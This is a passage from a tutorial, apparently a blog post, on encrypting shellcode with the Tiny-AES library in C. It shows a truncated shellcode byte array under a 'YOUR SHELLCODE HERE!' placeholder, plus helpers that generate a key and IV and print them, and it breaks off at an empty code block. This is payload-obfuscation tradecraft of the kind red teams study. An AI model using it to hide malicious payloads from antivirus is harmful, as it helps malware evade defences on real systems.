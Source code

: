 To start, we should intialize a `ctx` struct necessary for Tiny-AES, import our shellcode, and intiialize some variables to hold our IV and encryption key:

```c
int main()
{
	// struct for Tiny-AES
	struct AES_ctx ctx;
	BYTE pKey[32];                  
	BYTE pIv[16];                               

	// YOUR SHELLCODE HERE!
	unsigned char pPayload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,

  ...

  0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41,
  0x89, 0xda, 0xff, 0xd5
	};
	SIZE_T sPayloadSize = sizeof(pPayload);
```
Next, we can randomly generate some values for our key and IV with a helper function, and print them to the console. With these values we can initialize our `ctx` struct with the Tiny-AES library:
```c
VOID GenerateRandomBytes(PBYTE pByte, SIZE_T sSize) {
	for (int i = 0; i < sSize; i++) {
		pByte[i] = (BYTE)rand() % 0xFF;
	}
}


// print the input buffer as a hex char array (c syntax)
VOID PrintHexData(PBYTE Data, SIZE_T Size) {

	printf("======= DUMP ADDRESS 0x%p | SIZE %ld =======\n", Data, Size);

	for (int i = 0; i < Size; i++) {
		if (i < Size - 1) {
			printf("\\x%0.2X", Data[i]);
		}
		else {
			printf("\\x%0.2X", Data[i]);
		}
	}
	printf("\n\n");
...
	srand(time(NULL));                              
	GenerateRandomBytes(pKey, KEYSIZE);            

	srand(time(NULL) ^ pKey[0]);                  
	GenerateRandomBytes(pIv, IVSIZE);

	printf("--> KEY HEX:\n");
	PrintHexData(pKey, KEYSIZE);
	printf("--> IV HEX:\n");
	PrintHexData(pIv, IVSIZE);
	AES_init_ctx_iv(&ctx, pKey, pIv);
```
Now we are almost ready to encrypt. Recall that AES-256 is a block cipher, so we will need to make sure that our payload length is a multiple of 16 bytes. If it is, we can go ahead and encrypt. If not, we will need to add some null bytes to round it off with a helper function:
```c
```